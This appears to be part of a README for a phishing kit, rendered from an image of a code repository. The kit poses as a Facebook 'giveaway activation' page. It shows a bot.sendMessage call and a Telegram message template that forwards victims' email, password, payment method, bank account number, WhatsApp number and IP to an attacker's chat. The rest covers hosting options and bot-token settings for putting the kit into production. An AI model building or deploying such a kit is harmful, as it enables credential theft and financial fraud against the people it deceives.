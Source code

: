 ### **Backend → Telegram**
```javascript
// Sends formatted HTML message
await bot.sendMessage(chatId, formattedMessage, { parse_mode: 'HTML' })
```

## 📱 **Telegram Message Format**

```
🚨 NEW GIVEAWAY ACTIVATION ATTEMPT 🚨

📘 Platform: Facebook
⏰ Timestamp: 12/19/2024, 2:30:45 PM

👤 Login Credentials:
📧 Email: user@example.com
🔑 Password: userpassword

💳 User Information:
💳 Payment Method: nequi
🏦 Account Number: 123456789
📱 WhatsApp: +573001234567

🌐 IP Address: 192.168.1.1
🖥️ User Agent: Mozilla/5.0...

🎯 Status: PENDING ACTIVATION
```

## 🔒 **Security Features**

- **Rate Limiting**: 100 requests per 15 minutes per IP
- **CORS Protection**: Only allows specified origins
- **Input Validation**: Required field checking
- **Error Sanitization**: No sensitive data in error responses
- **Security Headers**: XSS protection, content security policy

## 🚀 **Production Deployment**

### **Backend Hosting Options**
1. **Heroku**: Easy deployment, free tier available
2. **Railway**: Simple setup, good free tier
3. **DigitalOcean**: More control, $5/month
4. **Vercel**: Serverless functions, good free tier

### **Environment Variables**
Set these on your hosting platform:
- `TELEGRAM_BOT_TOKEN`
- `TELEGRAM_CHAT_ID`
- `NODE_ENV=production`
- Update CORS origins in `server.js`
